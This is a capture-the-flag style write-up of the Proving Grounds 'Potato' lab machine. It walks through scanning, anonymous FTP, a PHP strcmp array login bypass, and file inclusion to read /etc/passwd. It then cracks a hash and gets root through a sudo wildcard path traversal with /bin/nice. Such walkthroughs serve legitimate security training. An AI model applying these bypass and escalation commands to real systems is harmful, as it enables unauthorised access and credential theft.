 # PG Play
## 7.26.24
------------------------------------
### IP: 192.168.186.101
### Name: Potato
### Difficulty: Easy
### Community Rating: Intermediate
--------------------------------------------------

Nmap:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 192.168.186.101
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 07:28 CDT
Nmap scan report for 192.168.186.101
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Looking at the page on port 80 we see a site seemingly under construction with an image of a potato:

pgplay_potato_site.png

I alos notice FTP running on 2112 has anonymous access enabled and I can see there are a few file in there.

Lets kick off some directory fuzzing while we check out FTP:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ feroxbuster --url http://192.168.186.101 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php html zip txt -o 80_dirs.txt
```

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ftp 192.168.186.101 2112
Connected to 192.168.186.101.
220 ProFTPD Server (Debian) [::ffff:192.168.186.101]
Name (192.168.186.101:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Fri Jul 26 12:32:45 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49064|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||15673|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      837.18 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (11.59 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||62215|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      165.31 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Looking at welcome.msg:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

Opening index.php.bak we find credentials to the `/dashboard.php` endpoint:

pgplay_potato_index.png

However navigating to http://192.168.186.101/dashboard.php we get a 404 not found error. 

Turning back to our directory fuzzing we find an `/admin` page.

Navigating here we do find a login panel:

pgplay_potato_login.png

But our discovered credentials don't work here:

pgplay_potato_fail.png

### Exploitation/ FootHold

Going back and looking at the index.php.bak file more closely, we can see that the login panel is using `strcmp` for the POST request.

pgplay_potato_strcmp.png

There is a nice writeup of this type of bypass at https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/

Essentially if we pass in `password[]=whatever` the brackets will create an empty array, setting `password` to 0 and PHP will (for some reason?) render `NULL == 0` as true. 

Lets capture a login request in Burp:

pgplay_potato_burp.png

Nice, that worked, We can now access the dashboard:

pgplay_potato_dashboard.png

Looking at the `logs` page we see we can select which log we'd like to view and it's displayed for us in browser.

pgplay_potato_logs.png

Lets capture this in Burp and see if we are able to access anything else using the functionality.

Nice, with a little playing around we were able to access `/etc/passwd`:

pgplay_potato_lfi1.png

And scrolling down in the file we find the password hash for webadmin:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
```

Lets try cracking this with john:

We now have webadmin's credentials: `webadmin:dragon`

And we can use these to SSH i tot he target:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ssh webadmin@192.168.186.101                                       
The authenticity of host '192.168.186.101 (192.168.186.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.186.101' (ED25519) to the list of known hosts.
webadmin@192.168.186.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
```

We can now access the local.txt flag:

pgplay_potato_local_flag.png

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we find:

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Interesting. The wildcard is very dangerous here. Lets get a root shell by running:

```
webadmin@serv:/$ sudo /bin/nice /notes/../bin/bash
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the final flag:

pgplay_root_flag.png

Thanks for following along!

-Ryan

------------------------------------------



